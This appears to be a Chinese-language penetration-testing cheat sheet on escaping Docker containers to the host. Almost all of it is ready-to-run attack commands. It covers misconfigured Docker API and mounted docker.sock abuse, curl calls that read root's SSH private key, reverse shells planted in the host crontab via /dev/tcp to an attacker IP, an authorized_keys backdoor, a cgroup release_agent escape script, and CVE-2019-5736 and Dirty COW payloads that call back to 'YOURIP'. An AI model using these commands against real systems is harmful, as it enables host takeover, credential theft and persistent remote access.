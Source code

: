 	    一个工具https://github.com/stealthcopter/deepce
	    二个工具https://github.com/gabrtv/shocker
#### 判断是否在docker容器中
	    检查/.dockerenv文件是否存在
	    检查/proc/1/cgroup内是否包含"docker"等字符串。
	    mount、fdisk -l查看硬盘 、判断PID 1的进程名
#### 配置不当引发的逃逸
	    挂载点/在宿主/mnt目录
	    >docker -H tcp://10.1.1.1:2375 run -it -v /:/mnt nginx:latest /bin/bash
	    容器内执行
	    >echo '* * * * * /bin/bash -i >& /dev/tcp/10.1.1.2/4444 0>&1' >> /mnt/var/spool/cron/crontabs/root
	    本地监听4444，获得宿主机shell
#### Docker sock
	    Docker.sock 是一个 Unix 套接字，它使 Docker 服务器端守护进程 dockerd 能够通过 REST API 与其命令行接口进行通信。 套接字显示为 /var/run/docker.sock 文件。 因为它是一个文件，管理员可以在容器中共享和运行 docker.sock，然后使用它与该容器进行通信。 运行 docker.sock 的容器可以启动或停止其他容器，在主机上创建镜像或写入主机文件系统。 这一切意味着当您运行“docker”命令行工具时，它实际上是在与 docker 套接字通信。
	    有时开发人员会将 docker 套接字安装在 docker 容器内，以便他们可以管理其他容器。 这通常使用以下命令完成：：
	    docker run -v /var/run/docker.sock:/var/run/docker.sock ubuntu:latest
	    注意“-v /var/run/docker.sock:/var/run/docker.sock”选项，这个标志将在 docker 容器内挂载 docker 套接字。 攻击者所要做的就是下载 docker CLI，他们将完全控制 docker API，这将允许他们删除容器、创建容器、执行命令或其他任何他们想要的东西
	    容器内找到docker.sock
	    >find / -name docker.sock
	    容器内查看宿主机信息
	    >docker -H unix:///var/位置 info
	    运行一个容器挂载宿主机根路径
	    >docker -H unix:///var/位置 run -it -v /:/test ubuntu /bin/bash
	    查看宿主机文件
	    >ls /test
#### Docker sock 手动操作
	    查看可用的镜像
	    curl --unix-socket docker.sock http://localhost/images/json -s
	    创建一个容器
	    curl --unix-socket docker.sock -s -H 'Content-Type: application/json' -d '{"Hostname": "", "Domainname": "", "User": "", "AttachStdin": true, "AttachStdout": true, "AttachStderr": true, "Tty": true, "OpenStdin": true, "StdinOnce": true, "Entrypiont": "/bin/sh", "Image": "容器名称", "Volumes": {"/host/": {}}, "HostConfig": {"Binds": ["/:/host"]}}' http://localhost/containers/create
	    启动容器
	    curl --unix-socket docker.sock -s -X POST http://localhost/containers/容器ID/start
	    创建任务1
	    curl --unix-socket docker.sock -s -H 'Content-Type: application/json' -d '{"AttachStdin": true, "AttachStdout": true, "AttachStderr": true, "Cmd": ["ls", "/host/"], "Privileged": true, "Tty": true }' http://localhost/containers/容器ID/exec
	    任务回显
	    curl --unix-socket docker.sock -s -H 'Content-Type: application/json' -d '{"Detach": false, "Tty": false}' http://localhost/exec/任务ID/start -o-
	    创建任务2 列出root .ssh目录
	    curl --unix-socket docker.sock -s -H 'Content-Type: application/json' -d '{"AttachStdin": true, "AttachStdout": true, "AttachStderr": true, "Cmd": ["ls", "/host/root/.ssh"], "Privileged": true, "Tty": true }' http://localhost/containers/容器ID/exec
	    查看回显
	    curl --unix-socket docker.sock -o- -H 'Content-Type: application/json' -d '{"Detach": false, "Tty": false}' http://localhost/exec/任务ID/start
	    创建任务3 查看私钥文件
	    curl --unix-socket docker.sock -s -H 'Content-Type: application/json' -d '{"AttachStdin": true, "AttachStdout": true, "AttachStderr": true, "Cmd": ["cat", "/host/root/.ssh/id_rsa"], "Privileged": true, "Tty": true }' http://localhost/containers/容器ID/exec
	    查看私钥
	    curl --unix-socket docker.sock -o- -H 'Content-Type: application/json' -d '{"Detach": false, "Tty": false}' http://localhost/exec/任务ID/start
#### 特权用户
	    Docker image如果使用“--privileged”标志运行，该标志禁用 Docker 提供的所有保护和隔离。运行“fdisk -l”并接收输出，可认为特权身份允许。
	    剩下要做的就是将主机文件系统挂载到“/dev/sda1”
	    >mkdir /test
	    >mount /dev/sda1 /test,读取宿主机文件。
	    写入计划任务
	    >echo '* * * * * /bin/bash -i >& /dev/tcp/10.1.1.2/4444 0>&1' >> /test/var/spool/cron/crontabs/root
	    本地监听返回shell
	    或挂在root目录后写入私钥文件
	    >docker run -itd -v /root:/root ubuntu:18.04 /bin/bash
	    >mkdir /root/.ssh
	    >cat id_rsa.pub >> /root/.ssh/authorized_keys
	    还可以尝试以下 POC 漏洞利用代码：
```bash
    d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
    mkdir -p $d/w;echo 1 >$d/w/notify_on_release
    t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
    touch /o;
    echo $t/c >$d/release_agent;
    echo "#!/bin/sh $1 >$t/o" >/c;
    chmod +x /c;
    sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
#### CVE-2019-5736
	    条件Docker < 18.09.2，runc< 1.0-rc6（docker ；docker-runc查看版本）
	    git clone https://github.com/Frichetten/CVE-2019-5736-PoC
	    >vim main.go
	    >payload = "#!/bin/bash \n bash -i >& /dev/tcp/YOURIP/1234 0>&1"
	    编译
	    >CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go
	    复制到容器上执行
	    管理员通过exec进入容器，触发Payload
#### CVE-2019-14271
#### 脏牛漏洞实现Docker逃逸
	    >git clone https://github.com/gebl/dirtycow-docker-vdso.git
	    >cd dirtycow-docker-vdso/
	    >sudo docker-compose run dirtycow /bin/bash
	    >cd /dirtycow-vdso/
	    >make
	    >./xx YOURIP:1234
#### 能力
	    CAP_SYS_ADMIN
	    CAP_SYS_PTRACE
	    CAP_SYS_MODULE
	    CAP_DAC_READ_SEARCH
	    CAP_DAC_OVERRIDE